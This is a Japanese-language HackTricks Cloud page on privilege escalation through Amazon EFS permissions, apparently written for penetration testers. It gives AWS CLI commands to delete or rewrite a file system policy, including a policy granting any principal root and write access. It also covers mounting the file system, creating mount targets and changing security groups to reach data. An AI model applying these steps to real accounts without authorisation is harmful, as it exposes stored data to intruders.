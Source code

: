 # AWS - EFS Privesc

{% hint style="success" %}
AWSハッキングを学び、実践する：<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
GCPハッキングを学び、実践する：<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricksをサポートする</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)を確認してください！
* **💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**Telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**をフォローしてください。**
* **ハッキングトリックを共有するには、[**HackTricks**](https://github.com/carlospolop/hacktricks)および[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを提出してください。**

</details>
{% endhint %}

## EFS

EFSに関する**詳細情報**は以下にあります：

{% content-ref url="../aws-services/aws-efs-enum.md" %}
[aws-efs-enum.md](../aws-services/aws-efs-enum.md)
{% endcontent-ref %}

EFSをマウントするには、EFSが公開されているサブネットワークにいる必要があり、アクセス権（セキュリティグループ）が必要です。これが発生している場合、デフォルトでは常にマウントできますが、IAMポリシーで保護されている場合は、ここに記載されている追加の権限が必要です。

### `elasticfilesystem:DeleteFileSystemPolicy`|`elasticfilesystem:PutFileSystemPolicy`

これらの権限のいずれかを持つ攻撃者は、**ファイルシステムポリシーを変更**して**アクセスを付与**したり、**削除して****デフォルトのアクセス**を付与することができます。

ポリシーを削除するには：
```bash
aws efs delete-file-system-policy \
--file-system-id <value>
```
変更するには：
```json
aws efs put-file-system-policy --file-system-id <fs-id> --policy file:///tmp/policy.json

// Give everyone trying to mount it read, write and root access
// policy.json:
{
"Version": "2012-10-17",
"Id": "efs-policy-wizard-059944c6-35e7-4ba0-8e40-6f05302d5763",
"Statement": [
{
"Sid": "efs-statement-2161b2bd-7c59-49d7-9fee-6ea8903e6603",
"Effect": "Allow",
"Principal": {
"AWS": "*"
},
"Action": [
"elasticfilesystem:ClientRootAccess",
"elasticfilesystem:ClientWrite",
"elasticfilesystem:ClientMount"
],
"Condition": {
"Bool": {
"elasticfilesystem:AccessedViaMountTarget": "true"
}
}
}
]
}
```
### `elasticfilesystem:ClientMount|(elasticfilesystem:ClientRootAccess)|(elasticfilesystem:ClientWrite)`

この権限を持つ攻撃者は**EFSをマウント**することができます。もし書き込み権限がデフォルトでEFSをマウントできるすべての人に与えられていない場合、彼は**読み取りアクセス**のみを持つことになります。
```bash
sudo mkdir /efs
sudo mount -t efs -o tls,iam  <file-system-id/EFS DNS name>:/ /efs/
```
追加の権限`elasticfilesystem:ClientRootAccess`と`elasticfilesystem:ClientWrite`は、マウントされた後にファイルシステム内に**書き込む**ためと、そのファイルシステムに**ルート**として**アクセス**するために使用できます。

**潜在的な影響:** ファイルシステム内の機密情報を特定することによる間接的な権限昇格。

### `elasticfilesystem:CreateMountTarget`

攻撃者が**マウントターゲット**が存在しない**サブネット**内にいる場合、彼はこの権限を使って**自分のサブネット**にマウントターゲットを**作成**することができます。
```bash
# You need to indicate security groups that will grant the user access to port 2049
aws efs create-mount-target --file-system-id <fs-id> \
--subnet-id <value> \
--security-groups <value>
```
**潜在的な影響:** ファイルシステム内の機密情報を特定することによる間接的な権限昇格。

### `elasticfilesystem:ModifyMountTargetSecurityGroups`

攻撃者がEFSのマウントターゲットが自分のサブネット内にあることを発見し、**トラフィックを許可するセキュリティグループがない場合**、彼は単に**選択したセキュリティグループを変更することができる**:
```bash
aws efs modify-mount-target-security-groups \
--mount-target-id <value> \
--security-groups <value>
```
**潜在的影響:** ファイルシステム内の機密情報を特定することによる間接的な権限昇格。

{% hint style="success" %}
AWSハッキングを学び、実践する:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
GCPハッキングを学び、実践する: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricksをサポートする</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)を確認してください!
* **💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**テレグラムグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**をフォローしてください。**
* **[**HackTricks**](https://github.com/carlospolop/hacktricks)および[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のgithubリポジトリにPRを提出してハッキングトリックを共有してください。**

</details>
{% endhint %}

